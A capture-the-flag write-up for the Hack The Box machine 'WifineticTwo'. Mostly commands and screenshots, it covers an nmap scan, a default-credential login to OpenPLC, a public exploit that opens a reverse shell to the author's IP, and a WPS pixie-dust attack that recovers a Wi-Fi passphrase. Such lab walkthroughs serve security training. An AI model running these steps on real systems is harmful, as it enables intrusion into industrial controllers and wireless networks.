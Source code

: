 # WifineticTwo Write-up

<img src="https://labs.hackthebox.com/storage/avatars/16c5889acc1ca177c6b343c76bebcdaf.png" width="200" height="200">

## Nmap

`nmap -sV -sC wifinetictwo.htb`

    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
    | http-title: Site doesn't have a title (text/html; charset=utf-8).
    |_Requested resource was http://10.10.11.7:8080/login
    |_http-server-header: Werkzeug/1.0.1 Python/2.7.18

![image](https://github.com/zer00d4y/writeups/assets/128820441/71a8b8b4-4bd9-4b6e-b992-87c02ce8294e)

Exploit: https://www.exploit-db.com/exploits/49803

`openplc`:`openplc`

![image](https://github.com/zer00d4y/writeups/assets/128820441/229bd09b-81b5-4725-b7c7-5bd81810a3b6)

    python3 ex.py -u http://wifinetictwo.htb:8080 -l openplc -p openplc -i 10.10.14.91 -r 4242



![image](https://github.com/zer00d4y/writeups/assets/128820441/3a1744c2-f984-4a48-bec9-93c61749200a)

    python3 -c 'import pty; pty.spawn("/bin/bash")'

![image](https://github.com/zer00d4y/writeups/assets/128820441/28e1b218-2c84-4dd6-a295-a57c352d7a3a)

    iw dev wlan0 scan | grep "^BSS\|SSID\|WSP\|Authentication\|WPS\|WPA"

![image](https://github.com/zer00d4y/writeups/assets/128820441/41552965-d787-477c-80e7-bc242cf10a46)

    wget https://github.com/kimocoder/OneShot/blob/master/oneshot.py?source=post_page-----33b501b69579-------

    python3 -m http.server 80

![image](https://github.com/zer00d4y/writeups/assets/128820441/82c4bfe6-66bb-4f71-9e72-fbe1a6cca826)
    
![image](https://github.com/zer00d4y/writeups/assets/128820441/4810f5a4-3e7d-4f40-bbba-33339d189823)

https://github.com/kimocoder/OneShot

https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant

    python3 one.py -i wlan0 -b 02:00:00:00:01:00 -K
    
    wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config

![image](https://github.com/zer00d4y/writeups/assets/128820441/8b5d785d-08cf-4c67-9153-1a4266dd88a2)

![image](https://github.com/zer00d4y/writeups/assets/128820441/5ce568a1-6825-45b7-a482-a55d0e1e1f63)

![image](https://github.com/zer00d4y/writeups/assets/128820441/ff19ea41-802e-42fa-bc40-29271b3a2e6d)

